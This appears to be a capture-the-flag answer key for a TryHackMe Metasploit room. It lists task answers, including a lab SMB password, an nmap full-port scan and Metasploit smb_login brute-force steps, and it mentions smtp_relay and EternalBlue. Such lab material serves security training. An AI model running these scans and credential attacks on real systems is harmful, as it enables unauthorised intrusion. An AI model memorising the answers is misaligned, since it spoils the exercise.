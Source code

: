LINK: https://tryhackme.com/room/metasploitexploitation#
[Task 2]
How many ports are open on the target system?
<!-- 5 --> nmap -sC -sV -p- -T4 <br>
Using the relevant scanner, what NetBIOS name can you see?
<!-- ACME IT SUPPORT -->

What is running on port 8000?
<!-- webfs/1.21 --><br>

What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.
<!-- leo1234 --><br>
```
search smb_login
use 0
show options
Now set RHOSTS and pass_file
set pass_file /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
set rhosts [MACHINE IP]
Run the exploit just by typing “run” or “exploit”
```
[Task 4]
msf5 auxiliary(scanner/smtp/smtp_relay) > info auxiliary/scanner/smtp/smtp_relay

[Task 5]
Same as Task descriptio (Eternal Blue)